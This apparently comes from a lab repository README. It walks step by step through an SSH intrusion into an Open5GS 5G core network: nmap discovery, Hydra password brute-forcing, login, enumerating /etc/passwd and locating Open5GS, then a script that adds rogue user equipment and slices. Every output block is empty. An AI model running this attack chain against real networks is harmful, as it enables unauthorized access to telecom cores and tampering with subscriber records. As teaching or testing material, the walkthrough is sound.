 # SSH Intruision

In this example the core network (running on 10.0.2.4) has an ssh server running to give admins remote access. The goal is for an attacker to discover this server, get access, and adjust the registered User epuipments as they like.

## Step One - Discovery

First the SSH server has to be discovered, this will be done with [Nmap](https://nmap.org/).
``` console
user@ue:~$ sudo nmap -p ssh 10.0.2.4 #check ssh
```
Resulting in the output:
``` console
```

## Step Two - Bruteforce

To connect to the server we need the login information of a user. For this we will use [Hydra](https://www.kali.org/tools/hydra/) which uses the list of most common passwords and usernames to try to find functioning pair of login data.
``` console
user@ue:~$ hydra -I -L ../Lists/Username_list.txt -P ../Lists/Password_list.txt 10.0.2.4 ssh -t 4
```
Resulting in the output:
``` console
```
## Step Three - Access

Now that we have access to the server we log in useing the password and username we found in the above step.
``` console
user@ue:~$ ssh admin@10.0.2.4
```

## Step Four - Poking about

Now that we are in the machine, we want to check where we can find core services running also if their might be other users on the machine.
``` console
admin@core:~$ otheruser=$(grep -w -v -e "nologin" -e "bin/false" -e "admin" -e "root" -e "sync" /etc/passwd | cut -d ":" -f 1)
admin@core:~$ echo "there is another user:  ${otheruser}"
admin@core:~$ path_to_open_5gs=$(find / -type d -name "open5gs" | head -n 1)
admin@core:~$ echo ${path_to_open_5gs}
admin@core:~$ cd ${path_to_open_5gs}
```
Resulting in the output:
``` console
```
Once we have the path of Open5gs we can use the python API to delete and or add subscribed UE's. To see the procces for that please refer to files [create_rogue_ue.sh](./create_rogue_ue.sh) and [delete_rogue_ue.sh](./delete_rogue_ue.sh)

## Step Five - Put it all together

To do all the following:

1. Scan for an ssh server.
2. Brutforce login.
3. Add a rogue UE with a Rogue Slice in the core.
4. Connect that rogue UE to the core. (in the works)
5. Delete the rogue UE and slice.

run the following:

```console
user@ue:~$ ./ssh_rogue.sh
```

